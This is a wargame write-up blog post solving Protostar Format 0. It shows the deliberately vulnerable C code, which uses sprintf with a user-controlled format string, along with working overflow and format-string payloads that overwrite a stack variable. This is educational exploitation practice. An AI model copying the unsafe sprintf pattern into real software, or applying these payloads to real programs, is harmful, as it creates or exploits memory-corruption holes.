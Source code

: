 ```yaml
---
title: "Exploit Exercises - Protostar Format 0"
date: "2012-01-24T05:13:00-05:00"
comments: true
highlight: "true"
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-protostar-format-0.html"
---
```


I'll be honest, I'm new to format string exploits.  I've been more experienced with stack overflows, and a little with heap overflows.  So hopefully this information is correct, as it's from my current understanding. 

<!-- more -->

[Protostar Format 0](http://exploit-exercises.com/protostar/format0) starts us off with the following vulnerable code: 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
 volatile int target;
 char buffer[64];

 target = 0;

 sprintf(buffer, string);

 if(target == 0xdeadbeef) {
  printf("you have hit the target correctly :)\n");
 }
}

int main(int argc, char **argv)
{
 vuln(argv[1]);
}
```

Looking at this code, somehow we have to get the variable, "target", which is never set anywhere other than to "0", to equal "0xdeadbeef".  Luckily, the "target" variable is on the stack, right before the "buffer" variable.  That means, if we can overflow "buffer", it'll leak out into "target". I decided for my understanding, that I would modify the c source file a little, so I could see what was going on better.  I added in 3 additional printf statements.  (This is mainly because I wasn't smart enough to get gdb to tell me where "buffer" and "target" were in memory.) 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
        volatile int target;
        char buffer[64];

        target = 0;

        sprintf(buffer, string);

        printf("Target: %08x\n", target);
        printf("Address of target: %08x\n", &target);
        printf("Address of buffer: %08x\n", &buffer);

        if(target == 0xdeadbeef) {
                printf("you have hit the target correctly :)\n");
        }
}

int main(int argc, char **argv)
{
        vuln(argv[1]);
}
```

Now, when I execute my custom compiled version, it gives me useful information:

```
user@protostar:~$ ./format0_1
Target: 00000000
Address of target: bffff7bc
Address of buffer: bffff77c
```
Just to verify that there was no spacing after "buffer" and before "target", I took those 2 values, and did some math: 

```
user@protostar:~$ perl -e 'print 0xbffff7bc-0xbffff77c . "\n"'
64
```

Initially, I thought this looked a lot like a stack overflow, especially since it did work as one: 

```
user@protostar:/opt/protostar/bin$ ./format0 `perl -e 'print "A"x64 . "\xef\xbe\xad\xde"'`
you have hit the target correctly :)
```

This is cheating though, since this is to demonstrate format string exploitation, and the [Format 0](http://exploit-exercises.com/protostar/format0) page says specifically:

>"This level should be done in less than 10 bytes of input."

So grumbling that I was going to have to do extra work, I started reading about string format exploitation.  A great document was titled ["Exploiting Format String Vulnerabilities"](http://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf), by scut / team teso</a>. 

It was in this document, that I found that you can actually tell the c compiler to read a certain number of bytes into a format.  I had seen this done half a dozen times before, but never knew that's what it was doing.  For example: 

```
printf("Target: %08x\n", target);
```

Normally for a hex formatting, you would simply use "%x" as the placeholder.  Well, apparently if you use "%08x", it will format it with 8 hex characters.  This is so that when "target" is set to 0, it actually prints "0x00000000" instead of "0x0".  Very nice! 

The same works for other types, such as decimal ("%d").  Since in the c program, it's doing: 

```
sprintf(buffer, string);
```

With this code, "string" is the first argument you pass to the program.  Since sprintf won't stop until it reads a null byte (as in a null terminated string), I just formatted it to read 64 bytes, and then concatenated "deadbeef" in little endian to it: 

```
user@protostar:/opt/protostar/bin$ ./format0 `perl -e 'print "%64d" . "\xef\xbe\xad\xde"'`
you have hit the target correctly :)
```

You could also format it with the "%64d" not in the perl statement, but I don't think it looks as readable. 

```
user@protostar:/opt/protostar/bin$ ./format0 %64x`perl -e 'print "\xef\xbe\xad\xde"'`
```

So there you have it.  That's definitely under 10 bytes of input.  I still have room for 2 more bytes if I need.

